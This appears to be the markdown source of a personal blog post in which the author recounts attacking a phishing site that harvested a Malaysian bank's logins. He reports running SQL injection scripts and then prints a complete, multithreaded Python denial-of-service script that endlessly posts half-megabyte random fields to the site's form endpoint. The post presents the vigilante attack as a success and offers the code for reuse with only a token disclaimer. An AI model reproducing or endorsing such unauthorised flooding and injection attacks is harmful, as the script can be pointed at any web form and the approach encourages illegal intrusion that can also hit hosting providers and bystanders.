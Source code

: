```yaml
---
layout: default
title:  "Annoying those phishers"
date:   2021-01-21 12:56:00 +0800
---
```


So a few hours ago a friend alerted me on facebook about a phishing site hosted in Turkey. After doing reconnaissance, i found out that the website is hosted in Turkey and the perpretor is actually a portuguese.

![Phishing site]({{ site.url }}/assets/images/maybank phishing.jpg){:class="img-responsive"}

And this guy was collecting username and passwords of a large bank in Malaysia (I am in Malaysia).

Ran a couple of SQL Injection scripts but at the same time i wrote a DoS script that is powerful that was utilizing the perpretor's resources and might send an alert to the provider on the activity on their network.

After working on the third version of the python script which was heavily threaded, i had also made a similar version that sends a large data that will be stored in his database. (the limit of a table size in MySQL is 65536 bytes) but i was hitting his server at 50Mbit/s running 25 python threads at one short.

so 2 scripts, my machine was running 50 threads concurrently.

![Python DoS]({{ site.url }}/assets/images/python dos.png){:class="img-responsive"}

For the two scripts, one with small payloads (to increase autoincrement faster) and a bigger payload (about 1.5MB per database row)

The reason why i chose to attack using two different payloads is to use up the adversary's resources a lot faster (table size limit or table id limit, or the database connection has been used up)

After running it for about half-and-hour, the perpretor finally took it's website down.

![Site 404]({{ site.url }}/assets/images/attack successful.png){:class="img-responsive"}

Most of the phishing sites are really simple forms and you can check the requests to launch and attack on them.

So here is the script (do not abuse it but you can read it for educational purposes)

fills the database with large random data at 500kb per column
```
import logging
import threading
import requests
import random, string

def randomword(length):
   letters = string.ascii_lowercase
   return ''.join(random.choice(letters) for i in range(length))

headers = {'User-Agent': 'Mozilla/5.0'}
payload = {'pais':'ru','ip':'0.0.0.0', 'password': randomword(500000), 'systema': randomword(500000), 'ir': randomword(500000)}

def generate_requests(name):
    while True:
        logging.info("Thread %s: starting", name)
        session = requests.Session()
        r = session.post('https://onlinemaycampaign.com/home/m2u/common/indexSend.php',headers=headers,data=payload)
        print(r.text)
        logging.info("Thread %s: finishing", name)

if __name__ == "__main__":
    format = "%(asctime)s: %(message)s"
    logging.basicConfig(format=format, level=logging.INFO,
                        datefmt="%H:%M:%S")

    threads = list()
    for index in range(25):
        logging.info("Main    : create and start thread %d.", index)
        x = threading.Thread(target=generate_requests, args=(index,))
        threads.append(x)
        x.start()

    for index, thread in enumerate(threads):
        logging.info("Main    : before joining thread %d.", index)
        thread.join()
        logging.info("Main    : thread %d done", index)
```
